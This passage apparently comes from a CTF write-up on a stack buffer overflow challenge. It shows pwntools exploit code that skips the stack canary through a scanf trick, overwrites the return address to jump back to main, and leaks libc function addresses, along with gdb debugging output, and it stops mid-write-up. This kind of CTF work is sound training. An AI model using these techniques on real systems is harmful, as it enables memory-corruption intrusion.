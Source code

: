 ```
target.sendline(str(0))

for i in range(14):
    target.sendline("1")
    target.sendline("2")

target.sendline("-")
target.sendline("-")  #bypass scanf, skip cookie

target.sendline("0") #libc_csu_init on stack, not important now
target.sendline("0")

target.sendline(str(main)) #return address, jump back to main
target.sendline(str(0))

target.interactive()
```

Running this gives me the following:

```
Tressure Box: x86\x7f..\x90v..\xb0x86\x7f.. created!
*** stack smashing detected ***: ./challenge terminated
```

I got the leaks! However, I also got a stack smashing detected message. I set a breakpoint at 0x00000000004009C2 and checked the value at $rcx here.

```
gef➤  p/x $rcx
$1 = 0x200000001
```

Ah, I wrote too many coins! I noticed that I looped through coins 1 and 2 14 times to fill the 14 slots, but I should only loop 7 times because I write two coins each time! Doing this allows me to start main again! First I must unpack the libc values (I get 6 bytes, the top 2 bytes are null), and then display this to myself.

```
target.recvuntil("Tressure Box: ")
free = u64(target.recv(6) + "\x00\x00")
target.recv(2)
puts = u64(target.recv(6) + "\x00\x00")
target.recv(2)
setbuf = u64(target.recv(6) + "\x00\x00")
target.recv(2)
printf = u64(target.recv(6) + "\x00\x00")

log.info("Free: " + hex(free))
log.info("Puts: " + hex(puts))
log.info("Setbuf: " + hex(setbuf))
log.info("Printf: " + hex(printf))
```

Running this gives me the following: 
